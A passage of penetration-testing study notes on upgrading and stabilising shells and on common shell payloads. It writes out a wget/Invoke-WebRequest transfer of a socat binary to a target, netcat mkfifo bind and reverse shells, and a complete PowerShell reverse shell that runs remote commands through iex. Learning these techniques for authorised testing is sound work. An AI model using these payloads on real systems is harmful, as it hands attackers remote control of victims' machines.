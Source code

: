 ### Technique 3: Socat
Typically to Linux systems.

The third easy way to stabilise a shell is quite simply to use an initial netcat shell as a stepping stone into a more fully-featured socat shell.

1.  Transfer a [Socat static compiled binary](https://github.com/andrew-d/static-binaries/blob/master/binaries/linux/x86_64/socat?raw=true)

    A typical way to achieve this would be using a webserver on the attacking machine inside the directory containing your socat binary (`sudo python3 -m http.server 80`), then, on the target machine, using the netcat shell to download the file.
    
    Or using Powershell: `Invoke-WebRequest -uri <LOCAL-IP>/socat.exe -outfile C:\\Windows\temp\socat.exe`

    On Linux this would be accomplished with `curl` or `wget` (`wget <LOCAL-IP>/socat -O /tmp/socat`).

### Change your terminal tty size
With any of the above techniques, it's useful to be able to change your terminal tty size. This is something that your terminal will do automatically when using a regular shell; however, it must be done manually in a reverse or bind shell if you want to use something like a text editor which overwrites everything on the screen.

Example: `stty rows <number>` & `stty cols <number>`

## Common shell payloads
### Executing a process
In netcat there is a `-e` option which allows you to execute a process on connection. For example, as a listener: `nc -lvnp <PORT> -e /bin/bash` However, this is not included in most versions of netcat as it is widely seen to be very insecure (funny that, huh?).

On Linux, we would instead use this code to create a listener for a bind shell: `mkfifo /tmp/f; nc -lvnp <PORT> < /tmp/f | /bin/sh >/tmp/f 2>&1; rm /tmp/f`. This creates a [`named pipe`](https://www.linuxjournal.com/article/2156) at `/tmp/f` and then starts a netcat listener and connects the input of that listener to the output of the named pipe. Then the output gets piped directly into `sh`, sending the stderr output stream into stdout, and sending stdout itself into the input of the named pipe, thus completing the circle.

A very similar command can be used to send a netcat reverse shell: `mkfifo /tmp/f; nc <LOCAL-IP> <PORT> < /tmp/f | /bin/sh >/tmp/f 2>&1; rm /tmp/f`. This command is virtually identical to the previous one, other than using the netcat connect syntax, as opposed to the netcat listen syntax.

### Powershell
When targeting a modern Windows Server, it is very common to require a Powershell reverse shell:

```PS
powershell -c "$client = New-Object System.Net.Sockets.TCPClient('<ip>',<port>);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"
```
